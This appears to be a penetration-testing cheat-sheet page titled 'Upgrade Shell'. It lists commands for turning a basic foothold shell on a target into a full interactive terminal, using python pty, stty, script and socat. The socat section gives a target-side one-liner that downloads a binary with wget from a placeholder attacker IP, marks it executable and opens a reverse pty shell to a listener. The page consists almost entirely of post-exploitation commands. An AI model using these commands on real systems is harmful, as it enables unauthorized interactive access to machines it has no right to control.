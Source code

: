 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["shell", "python", "bash", "sh", "tty"]
---
```


### Upgrade Shell

#### Check installed binaries

<div>

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

</div>

{{< tab set1 tab1 active >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console
# After fg, press enter again, then
export TERM=xterm-256color
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

</div>

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
script -qc /bin/bash /dev/null
```

</div>

{{< /tabcontent >}}

<br>